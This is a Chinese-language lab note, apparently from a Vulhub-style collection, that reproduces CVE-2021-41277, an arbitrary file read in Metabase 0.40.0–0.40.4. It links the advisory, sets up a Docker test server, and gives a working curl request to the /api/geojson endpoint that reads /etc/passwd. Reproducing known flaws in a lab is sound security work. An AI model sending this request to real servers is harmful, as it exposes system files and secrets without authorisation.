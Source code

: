 # Metabase任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277

## 影响版本

```
metabase 0.40.0-0.40.4
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![image-20220517154249116](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205171542277.png)

## 漏洞复现

执行以下命令读取`/etc/passwd`：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

![image-20220517154548409](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205171545732.png)